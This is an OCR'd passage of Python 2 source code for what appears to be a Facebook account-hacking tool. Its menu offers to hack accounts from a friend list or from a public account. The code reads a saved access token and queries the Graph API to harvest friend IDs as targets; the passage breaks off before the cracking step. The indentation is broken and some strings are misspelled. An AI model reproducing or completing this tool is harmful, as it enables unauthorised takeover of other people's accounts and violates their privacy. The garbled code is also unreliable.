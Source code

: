 	elif unikers =="1":
		super()
	elif unikers =="2":
		os.system('xdg-open https://commentpicker.com/find-facebook-id.php')
	        menu()
	elif unikers =="3":
		os.system('xdg-open https://m.facebook.com/toxic.shark.official/')
                menu()
	elif unikers =="0":
		jalan('Token Removed')
		os.system('rm -rf login.txt')
		keluar()
	else:
		print "\x1b[1;91mFill in correctly"
		pilih()


def super():
	global toket
	os.system('clear')
	try:
		toket=open('login.txt','r').read()
	except IOError:
		print"\x1b[1;91mToken invalid"
		os.system('rm -rf login.txt')
		time.sleep(1)
		login()
	os.system('clear')
	print logo
	print "\033[1;97m[1]\x1b[1;34mHack From Friend List"
	print "\033[1;97m[2]\x1b[1;34mHack From Public Accounts"
	print "\033[1;97m[0]\033[1;95mBack"
	pilih_super()

def pilih_super():
	peak = raw_input("\n\033[1;35mChoose an Option: \033[1;97m")
	if peak =="":
		print "\x1b[1;91mFill in correctly"
		pilih_super()
	elif peak =="1":
		os.system('clear')
		print "\033[1;95m«-_-_-_-_-_-_-_-_-\033[1;91mHuntter\033[1;95m-_-_-_-_-_-_-_-_-»"
		print logo
		jalan('\033[1;91mGetting Accounts \033[1;93m■■■■■100%')
		r = requests.get("https://graph.facebook.com/me/friends?access_token="+toket)
		z = json.loads(r.text)
		for s in z['data']:
			id.append(s['id'])
	elif peak =="2":
		os.system('clear')
		print "\033[1;95m«-_-_-_-_-_-_-_-_-\033[1;91mHunttet\033[1;95m-_-_-_-_-_-_-_-_-»"
		print logo
		idt = raw_input("\033[1;96m[*] \033[1;96mEnter ID\033[1;93m: \033[1;97m")
		try:
			jok = requests.get("https://graph.facebook.com/"+idt+"?access_token="+toket)
			op = json.loads(jok.text)
			print"\033[1;93mName\033[1;93m:\033[1;97m "+op["name"]
		except KeyError:
			print"\x1b[1;91mID Not Found!"
			raw_input("\n\033[1;96m[\033[1;97mBack\033[1;96m]")
			super()
		print"\033[1;91mGetting Accounts\033[1;93m■■■■■100%"
		r = requests.get("https://graph.facebook.com/"+idt+"/friends?access_token="+toket)
		z = json.loads(r.text)
		for i in z['data']: